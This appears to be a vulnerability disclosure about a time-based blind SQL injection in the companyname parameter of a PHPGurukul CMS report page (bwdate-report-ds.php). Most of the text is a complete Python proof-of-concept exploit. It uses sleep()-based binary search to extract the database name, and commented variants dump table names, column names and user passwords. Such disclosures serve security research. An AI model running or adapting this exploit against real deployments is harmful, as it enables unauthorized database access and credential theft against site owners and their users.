 vendor：https://phpgurukul.com/

download link：https://phpgurukul.com/?smd_process_download=1&download_id=10924

Vulnerability trigger parameter: $cname

The process of vulnerability discovery is as follows：

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/2459920243.png)

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/3221213697.png)

You can see in the source code that the '$cname' in the  php file is likely to be injected. Then you can judge from the following if else statement that this variable can splice malicious code, and you can perform blind injection.

POC:
```python
import requests
import time
 
url = "http://localhost/DFScms/dfsms/bwdate-report-ds.php"
flag = ''
 
 
def payload(i, j):
    startTime=time.time()
    # 数据库名字
    sql = "companyname=-1'and if(ascii(substr(database(),%d,1))>%d,sleep(3),-1)and'1=1&submit="%(i,j)
    # 表名
    #sql = "id = if(ascii(substr((select group_concat(table_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 列名
    #sql = "id = if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 查询flag
    #sql = "id = if(ascii(substr((select password from users),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
 
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "PHPSESSID=iv4ujtg89cbg68hdmaqb4bbkl7"
    }
 
    r = requests.post(url=url, headers=headers, data=sql, timeout=15, verify=False)
    # print (r.url)
    if time.time()-startTime>2:
        res = 1
    else:
        res = 0
    return res
 
 
def exp():
    global flag
    for i in range(1, 200):
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)
 
 
exp()

```
The database name was exploded

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/3416677165.png)

